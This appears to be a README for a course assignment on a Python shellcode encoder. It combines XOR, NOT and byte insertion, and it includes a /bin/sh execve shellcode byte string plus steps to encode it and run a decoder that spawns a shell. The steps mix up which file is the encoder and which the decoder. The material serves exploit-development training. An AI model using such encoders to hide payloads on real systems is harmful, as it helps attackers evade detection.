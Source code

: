 # Assignment 4: Custom Encoder

Custom shellcode encoder which uses NOT encoding, XOR encryption and insertion.

To generate an encoded shellcode payload of your choice, first place the original shellcode into the `shellcode` variable of `custom_encoder.py`:

```python
#!/usr/bin/python3

# Python Custom Shellcode Encoder
# Shellcode is XOR encoded with a key of 0x7 and then NOT encoded
# Next, a byte 0xBA is inserted to pad the shellcode

import random

shellcode = bytearray(b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
...
```

Next, run `custom_decoder.py`:

```bash
python3 custom_decoder.py
[*] Custom decoder generated. Run ./custom_decoder to execute.
```

Finally, execute custom_encoder. The default payload decodes and runs a /bin/sh payload:

```bash
./custom_decoder
Shellcode Length:  93
#
```

---

